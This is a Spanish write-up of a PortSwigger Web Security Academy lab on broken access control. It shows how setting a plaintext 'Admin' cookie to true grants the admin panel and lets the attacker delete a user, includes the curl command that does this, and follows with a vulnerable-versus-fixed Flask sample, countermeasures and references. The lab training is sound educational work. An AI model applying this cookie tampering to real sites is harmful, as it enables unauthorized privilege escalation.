

# Writeup: User role controlled by request parameter (PortSwigger)

- **Lab**: User role controlled by request parameter
- **URL**: https://portswigger.net/web-security/access-control/lab-user-role-controlled-by-request-parameter
- **Categoría**: Access control / Privilege escalation por cookie tampering / Confused deputy
- **Dificultad**: Apprentice
- **Credenciales**: `wiener:peter`

---

## 1. Objetivo

Borrar `carlos` desde `/admin`. El panel admin existe en path predecible y exige autorización, pero el server determina si el usuario es admin a partir de una **cookie controlable por el cliente** (`Admin=true|false`). Tampering de la cookie = escalada vertical.

### Insight central

El server delega la decisión de "este usuario es admin" a un dato que el cliente lleva consigo y puede modificar. Cookies son storage del cliente, no del server, salvo que estén firmadas/cifradas. Una cookie `Admin=false` plaintext sin HMAC es **input del cliente disfrazado de estado server-side**. El antipatrón es el mismo que `verify=<user>` del lab `2fa-broken-logic` o que hidden inputs `is_admin=false` en formularios.

---

## 2. Reconocimiento

### 2.1 Login y observar cookies

`POST /login` con `wiener:peter`. Response setea **dos cookies**:

```
Set-Cookie: session=uu7BAa5821NHLOsm15aj6DGL1N1SLZ2Q
Set-Cookie: Admin=false
```

`session` es opaque (token de sesión típico). `Admin=false` es plaintext, dato semántico, controlable.

### 2.2 Probar acceso a /admin con `Admin=false`

Sin tampering, `GET /admin` devuelve 401/403 o redirect. Con `Admin=true`:

```http
GET /admin HTTP/2
Cookie: Admin=true; session=uu7BAa5821NHLOsm15aj6DGL1N1SLZ2Q

HTTP/2 200 OK
... <h1>Users</h1>
    <a href="/admin/delete?username=wiener">Delete</a>
    <a href="/admin/delete?username=carlos">Delete</a>
```

200 OK con el panel admin visible. El server validó la cookie como autoritativa.

---

## 3. Resolución

```bash
curl 'https://<lab>/admin/delete?username=carlos' \
    -H 'Cookie: Admin=true; session=...'
```

302 a `/admin`. Banner pasa a `is-solved`.

---

## 4. Por qué funciona

### 4.1 Cookies como input, no como estado

Cookies plaintext son básicamente un campo de formulario que el browser persiste y reenvía automáticamente. El server las recibe como parte del request, igual que params de URL o body. Tratarlas como "estado server-side" es ilusión: el cliente las controla.

Tres categorías de cookies:
1. **Opaque/random** (`session=ABC123...`): son keys hacia state real en el server. Cliente no puede generar valores válidos sin acceso al store.
2. **Firmadas/cifradas** (`session=eyJ...sig`): JWT, signed cookies de Flask, etc. Cliente puede leer pero modificar invalida la firma.
3. **Plaintext semántico** (`Admin=false`, `role=user`, `cart_total=99`): cliente controla. Nunca debe usarse para autorización.

`Admin=false` cae en la tercera. Anti-patrón.

### 4.2 Implementación correcta

```python
# Antipatron
@app.route('/admin')
def admin_broken():
    if request.cookies.get('Admin') != 'true':
        abort(403)
    return render_template('admin.html')

# Implementacion correcta
@app.route('/admin')
@require_role('admin')
def admin_safe():
    return render_template('admin.html')

def require_role(role):
    def decorator(fn):
        @wraps(fn)
        def wrapper(*args, **kwargs):
            user_id = session.get('user_id')  # session opaque, store server-side
            if not user_id:
                abort(401)
            user = User.find(user_id)
            if role not in user.roles:  # role lookup en DB, no en cookie
                abort(403)
            return fn(*args, **kwargs)
        return wrapper
    return decorator
```

Diferencia clave: el role se consulta en la **DB del server** usando un identificador opaque de la sesión. El cliente nunca controla el role.

### 4.3 Patrón general

Esta clase aparece en muchos disfraces:

- **Hidden inputs** (`<input name=role value=user>`).
- **JWTs sin verificar firma** o con `alg=none`.
- **Headers custom** (`X-User-Role: admin`).
- **Query/body params** (`?role=admin`).
- **localStorage/sessionStorage** flags leídos por JS y enviados al server.

La regla universal: **cualquier dato bajo control del cliente no es autoridad sobre identidad o permisos**. Authz se deriva de una sesión opaque + lookup server-side, siempre.

### 4.4 Comparación con labs hermanos

| Lab | Vector | Cómo se resuelve |
|---|---|---|
| Unprotected admin | Path en robots.txt, sin auth | Encontrar path |
| Unprotected admin (unpredictable URL) | Path en JS frontend, sin auth | Encontrar path |
| **User role controlled by parameter (este)** | Cookie `Admin=false` controlable | Tampering: `Admin=true` |

Los dos primeros: server omite auth. Este: server tiene auth pero la basa en input del cliente.

---

## 5. Resumen



Tres ideas:

1. **Cookies plaintext semánticas son input del cliente**. Pueden almacenar preferencias de UX (tema, idioma), nunca autorización.
2. **Authz siempre desde sesión opaque + lookup server-side**. El role vive en la DB, indexado por user_id, nunca en lo que el cliente lleva.
3. **El antipatrón aparece en múltiples capas**: cookies, headers, hidden inputs, JWTs sin verify, localStorage. La defensa es uniforme: no confiar en input del cliente para decisiones de seguridad.

---

## 6. Contramedidas

1. **Sesiones opaque + lookup de role server-side**. La sesión es un random token; el role se consulta en DB.
2. **Si necesitás claims en cookies, firmalas o cifralas**: JWT con `HS256`/`RS256`, signed cookies (Flask), encrypted cookies (Rails). Tampering invalida firma.
3. **No exponer cookies de role al cliente**: si el server solo lee `session`, no setear `Admin` ni `Role`. Reduce superficie.
4. **Decorators consistentes**: `@require_role('admin')` en cada endpoint sensible.
5. **Audit logging** de acciones admin.
6. **Tests automatizados**: por cada endpoint admin, asegurar que retorna 403 con cookie tampered.

---

## 7. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: User role controlled by request parameter*. https://portswigger.net/web-security/access-control/lab-user-role-controlled-by-request-parameter
- PortSwigger Web Security Academy. (s.f.). *Access control vulnerabilities and privilege escalation*. https://portswigger.net/web-security/access-control
- OWASP Foundation. (2021). *A01:2021 - Broken Access Control*. https://owasp.org/Top10/A01_2021-Broken_Access_Control/
- OWASP Foundation. (s.f.). *Authorization Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html
- OWASP Foundation. (s.f.). *Session Management Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html
- MITRE Corporation. (2024). *CWE-639: Authorization Bypass Through User-Controlled Key*. https://cwe.mitre.org/data/definitions/639.html
- MITRE Corporation. (2024). *CWE-565: Reliance on Cookies without Validation and Integrity Checking*. https://cwe.mitre.org/data/definitions/565.html
- MITRE Corporation. (2024). *CWE-807: Reliance on Untrusted Inputs in a Security Decision*. https://cwe.mitre.org/data/definitions/807.html
- Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook* (2nd ed.). Wiley. Cap. 8 (Attacking Access Controls).
- Writeups hermanos del cluster:
  - [`learning/portswigger/unprotected-admin-functionality/writeup.md`](../unprotected-admin-functionality/writeup.md)
  - [`learning/portswigger/unprotected-admin-functionality-with-unpredictable-url/writeup.md`](../unprotected-admin-functionality-with-unpredictable-url/writeup.md)
- Inventario interno: [`inventario/04-explotacion/web/explotacion-broken-access-control.md`](../../../inventario/04-explotacion/web/explotacion-broken-access-control.md)
